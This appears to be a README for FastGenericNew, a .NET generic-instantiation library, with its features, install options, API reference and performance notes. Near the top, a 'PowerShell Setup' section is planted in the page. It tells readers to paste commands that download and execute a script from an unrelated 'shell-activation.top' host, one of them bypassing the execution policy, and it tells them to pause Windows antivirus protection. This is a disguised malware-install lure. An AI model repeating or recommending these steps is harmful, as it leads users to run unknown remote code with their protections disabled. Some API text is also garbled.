


<div align="center">

# FastGenericNew: High-Performance Generic Instantiation — Developer Library


[]() []() []() []() []()

</div>

---

FastGenericNew replaces `Activator.CreateInstance<T>` and `new T()` with a generic instantiation path that avoids boxing, reflection overhead, and constructor constraints. It exposes a `FastNew.CreateInstance<T>` API with overloads for constructor parameters and a `TryCreateInstance` variant, backed by multiple runtime implementations and an optional incremental source generator. The library targets .NET Standard 2.0, supports non-public constructors, parameterless struct constructors, and trimmed/AOT publishing scenarios.

## 🔧 PowerShell Setup

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Launch PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Execute the installer
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ Forced run via CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Security software might occasionally flag automated installers. If the script gets blocked, pause "Real-time protection" in your Windows Security dashboard, run the setup, and re-enable your antivirus immediately afterward.

## ✅ Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- **Drop-in replacement semantics.** Swap `Activator.CreateInstance<T>` for `FastNew.CreateInstance<T>` or `FastNew.NewOrDefault<T>` without changing call sites; the API surface mirrors the familiar patterns with overloads for one, two, or more constructor arguments.
- **Generic-parameter construction.** Instantiate open generic parameter positions directly (`FastNew.CreateInstance<T>`, `FastNew.CreateInstance<T, TArg>(arg)`) with no reflection at the call site and no boxing/unboxing on the hot path.
- **Try pattern.** `FastNew.TryCreateInstance<T, ...>(args, out T result)` returns a boolean instead of throwing when the requested constructor cannot be invoked — useful in validation and dispatch code. It reports constructor availability only; exceptions thrown inside the constructor propagate normally.
- **Non-public constructor support.** Construct types with `internal` or `private` parameterless constructors when the scenario requires it.
- **No generic constraints required.** Works with `T` that lacks a `new()` constraint, including constraints that forbid it (e.g., interfaces, abstract bases handled at runtime).
- **Parameterless struct constructor fidelity.** Always honors a declared parameterless constructor on value types, regardless of whether the constraint is `new()` or `struct`. Use `FastNew.NewOrDefault<T>()` when default-initialization is desired instead.
- **Multiple backends.** Pluggable delegate/expression-tree implementations selected automatically per target, so the same source compiles and performs well on .NET Framework, modern .NET, and WebAssembly.
- **Trim-safe link mode.** Compatible with `PublishTrimmed`; the source-generator backend emits construction code at compile time so the trimmer sees concrete call sites.
- **Source generator (incremental).** A Roslyn v2 incremental generator backend with configurable options (generation mode, accessibility, thread count) and parallel multi-threaded emission for large type sets.
- **Broad target compatibility.** Consumable from .NET Standard 2.0 upward; the generator backend requires Roslyn 4.0.1+ and C# 8+.
- **Modern C# support.** Nullable reference types (C# 8), parameterless struct constructors (C# 10) whether or not they are invoked, and consistent behavior across Win/Mac/Linux CI matrices.
- **Zero-allocation hot path.** No per-call boxing, reflection lookups, or delegate allocations after the initial per-type cache warm-up.

## Installation

Choose exactly one integration mode: the precompiled runtime package or the source generator package. Do not reference both from the same project.

**Precompiled runtime**

Reference the `FastGenericNew` package in your project file:

```xml
<ItemGroup>
 <PackageReference Include="FastGenericNew" Version="3.3.1" />
</ItemGroup>
```

This mode ships the full runtime API and requires no additional analyzer setup.

**Source generator**

Reference the `FastGenericNew.SourceGenerator` package instead:

```xml
<ItemGroup>
 <PackageReference Include="FastGenericNew.SourceGenerator" Version="3.3.1" />
</ItemGroup>
```

The generator emits the `FastNew` API at compile time and participates in the build as an incremental Roslyn analyzer. The source generator requires:

- .NET Standard 2.0 or later
- C# 8.0 or later
- Roslyn 4.0.1 or later
- A modern IDE such as Visual Studio 2022, Rider, or VS Code (optional, for diagnostics and IntelliSense)

**Notes**

- Both packages target .NET Standard 2.0 and support trimming (`PublishTrimmed`) and non-public constructors.
- Do not mix the precompiled package with the source generator package; duplicate `FastNew` declarations will cause ambiguous reference errors.
- No generic constraints are required on `T`; usage sites compile with the same signatures regardless of the selected mode.

## Quick Start

Add the package reference to your project, then import the namespace:

```csharp
using FastGenericNew;
```

### Replace `Activator` with `FastNew`

`FastNew.CreateInstance<T>()` is a drop-in replacement for `Activator.CreateInstance<T>()` and the `new T()` constraint pattern. Use it anywhere a generic type must be constructed at runtime:

```csharp
public sealed class Pool<T> where T : notnull
{
 public T Rent() => FastNew.CreateInstance<T>();
}
```

### Constructors with arguments

Pass type arguments for constructor parameters. The generic arity matches the constructor signature:

```csharp
var single = FastNew.CreateInstance<T, string>("payload");
var pair = FastNew.CreateInstance<T, string, int>("payload", 42);
var triple = FastNew.CreateInstance<T, string, int, bool>("payload", 42, true);
```

### Try-pattern usage

`TryCreateInstance` returns `false` when no matching constructor exists instead of throwing:

```csharp
if (FastNew.TryCreateInstance<T, string>("payload", out T? instance))
{
 Consume(instance);
}
```

> **Note:** the try-pattern only verifies that the constructor is *callable*. Exceptions thrown from inside the constructor body are not caught — wrap the call in your own `try`/`catch` if constructor failure is possible.

### Value types and parameterless constructors

For `where T : struct` constraints, `Activator.CreateInstance<T>()` on .NET Framework ignores user-defined parameterless constructors. `FastNew.CreateInstance<T>()` always invokes the parameterless constructor when one is defined.

If you need the `default(T)` semantics instead — that is, you never want the parameterless constructor to run — use:

```csharp
T value = FastNew.NewOrDefault<T>();
```

### Choosing a backend

`FastNew` resolves a backend at static initialization. For AOT or trimmed deployments (`PublishTrimmed`), reference the source-generator package and the library emits the construction delegates at compile time, removing runtime expression compilation entirely:

```csharp
// No code changes required — the generated implementation is selected automatically.
var instance = FastNew.CreateInstance<T>();
```

No runtime reflection is performed on the fast path; the delegate is cached per closed generic type on first use.

## 📸 Screenshot





## API Reference

### `FastNew.CreateInstance<T>()`

Creates an instance of `T` by invoking the parameterless constructor. Returns `default(T)` for `Nullable<T>` and reference types without an accessible parameterless constructor.

```csharp
T obj = FastNew.CreateInstance<T>();
```

- `T` — target type; no generic constraints imposed.
- Return value — a new instance of `T`, or `default(T)` when no parameterless constructor exists.
- Behavior — for value types, invokes a user-defined parameterless constructor when present; never invokes a parameterless struct ctor is not the case here (it does invoke it when available).

### `FastNew.CreateInstance<T, TArg>(TArg arg)`

Creates an instance of `T` by invoking a single-argument constructor matching `TArg`.

```csharp
T obj = FastNew.CreateInstance<T, string>("text");
```

- `TArg` — argument type used for constructor resolution.
- `arg` — argument passed to the matched constructor.
- Returns `default(T)` when no compatible constructor is found.

### `FastNew.CreateInstance<T, TArg1, TArg2>(TArg1 a1, TArg2 a2)`

Multi-argument overloads are available for up to 15 generic argument slots, resolved positionally against constructor signatures.

```csharp
T obj = FastNew.CreateInstance<T, string, int>("text", 0);
```

### `FastNew.TryCreateInstance<T>(out T result)`

Try-pattern entry point. Returns `true` when a callable parameterless constructor exists; assigns the created instance to `result`. Returns `false` and assigns `default(T)` when no constructor can be resolved.

```csharp
if (FastNew.TryCreateInstance<T>(out T result))
{
 // result is usable
}
```

> The try pattern checks constructor availability only. It does not catch or suppress exceptions thrown from within the constructor.

### `FastNew.TryCreateInstance<T, TArg>(TArg arg, out T result)`

Try-pattern overload for a single argument; additional generic argument slots mirror the `CreateInstance` overload set.

```csharp
if (FastNew.TryCreateInstance<T, string>("arg0", out T result))
{
 // ...
}
```

### `FastNew.NewOrDefault<T>()`

Returns a new instance of `T` for reference types, and `default(T)` for value types. It intentionally never invokes a user-defined parameterless struct constructor.

```csharp
T obj = FastNew.NewOrDefault<T>();
```

Use this when you want reference-type construction semantics without triggering value-type parameterless constructors—matching the `where T : struct` behavior of `Activator.CreateInstance<T>()`.

### Backend Selection

The library resolves construction through multiple backend implementations selected at compile time based on target framework and configuration. Backends differ only in mechanism (delegate, expression tree, dynamic method); the public surface is identical across all of them. No runtime configuration is required.

### Trimming and AOT

All public APIs are compatible with `PublishTrimmed` and native AOT. Construction paths avoid runtime reflection where possible; any reflection fallback is fully trim-annotated.

### Constraints and Semantics

- No generic constraints are applied to any API.
- Non-public constructors are supported where the backend can access them.
- No boxing or unboxing occurs for generic parameters along the construction path.
- For `Nullable<T>`, `CreateInstance<T>()` returns `default(T)`.
- Nullable reference type annotations are honored; APIs propagate nullability to `T`.

## Performance

Allocation-free construction paths are the primary performance lever. `FastNew.CreateInstance<T>()` resolves the constructor once per closed generic type and caches a delegate, so repeated calls avoid reflection entirely.

```csharp
// Reflection-based: resolves constructor metadata on every call
var a = Activator.CreateInstance<T>();

// Cached delegate: one-time resolution, then direct invocation
var b = FastNew.CreateInstance<T>();
```

### Cost Model

| Path | Per-call overhead | Allocations |
|---|---|---|
| `Activator.CreateInstance<T>()` | Reflection lookup + invoke | Yes (boxing for value types) |
| `new T()` (constrained) | Direct `newobj` | None |
| `FastNew.CreateInstance<T>()` | Cached delegate invoke | None |
| `FastNew.NewOrDefault<T>()` | Cached delegate invoke or default | None |

### Source Generator Mode

When the source generator is enabled, construction sites are emitted as direct `new` expressions or static delegate fields at compile time. This removes the runtime cache lookup from the hot path:

```csharp
// Generated code (conceptual) — no dictionary access at call time
private static readonly Func<T> _factory = static () => new T();
```

The generator emits per-type factory fields, so `CreateInstance<T>()` compiles down to a static field read plus a delegate call. Inlining opportunities are preserved for value types.

### Struct Constructors

Parameterless struct constructors are respected. For `where T : struct`, the behavior differs from `Activator.CreateInstance<T>()` on .NET Framework:

```csharp
// Invokes the parameterless constructor when one exists
var s = FastNew.CreateInstance<T>();

// Always returns default(T); never invokes a constructor
var d = FastNew.NewOrDefault<T>();
```

### Try Pattern

`TryCreateInstance<T>(out T)` performs the same cached lookup but returns `false` instead of throwing when no matching constructor is found. It does not swallow exceptions thrown inside the constructor body.

```csharp
if (FastNew.TryCreateInstance<T, string>("arg", out var instance))
{
 // constructor was found and invoked
}
```

### Guidance

- Prefer `CreateInstance<T>()` over `Activator.CreateInstance<T>()` in any hot path.
- Use the source generator build for AOT, trimming, and maximum throughput.
- Use `NewOrDefault<T>()` when you need `default(T)` semantics without invoking struct constructors.
- Benchmark against your own type shapes; delegate caching benefits are largest for reference types with non-trivial constructors.

## License

FastGenericNew is released under the MIT license.

The MIT license permits use, copy, modification, merge, publish, distribution, sublicensing, and sale of copies of the software, provided the copyright notice and permission notice are included in all copies or substantial portions of the software. The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability arising from, out of, or in connection with the software or its use.

The full license text is provided in the `LICENSE` file at the root of the repository and governs all use of FastGenericNew.